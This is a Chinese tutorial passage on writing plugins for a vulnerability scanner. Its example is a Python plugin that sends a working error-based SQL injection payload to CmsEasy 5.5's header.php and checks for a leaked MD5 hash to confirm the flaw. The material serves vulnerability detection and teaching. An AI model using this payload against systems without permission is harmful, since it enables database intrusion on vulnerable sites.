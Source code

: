 # 编写插件
---

### 1. 编写

开发者在本地编写插件代码，以下为 [CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827) 的扫描插件。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# __author__ = 'Medici.Yan'
# 引入需要用到的标准库
import urllib

# assign 验证任务的指纹
def assign(service, arg):
    if service == fingerprint.cmseasy: # 指纹为 cmseasy
        return True, arg  # 返回类型为 tuple

# audit 审计函数，通过指纹验证后调用该函数
def audit(arg):
    # 此插件中 arg 为提交的网址
    # 构造要提交数据的目标 URL
    target = arg + '/celive/live/header.php'
    # 此漏洞要发送的 POST 数据(Payload)
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    # 通过 curl2 发送 Payload 到目标
    code, head, body, redirect_url, log = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    # 验证是否存在漏洞
    if 'e165421110ba03099a1c0393373c5b43' in body:
        # 存在漏洞则输出目标 URL
        security_hole(target, log=log)

# 本地测试时需要加 main 用于调用
if __name__ == '__main__':
    # 导入 sdk
    from dummy import *
    # 调用 audit 与 assign
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])

```

**读者暂时无需关注插件编写具体内容，我们会在后面的章节中详细讲解如何编写。**

### 2. 测试

将编写好的插件保存，例如文件名叫 `demo.py`, 直接在终端下运行该文件。如果存在漏洞，则会终端上会有 [LOG] 信息输出。
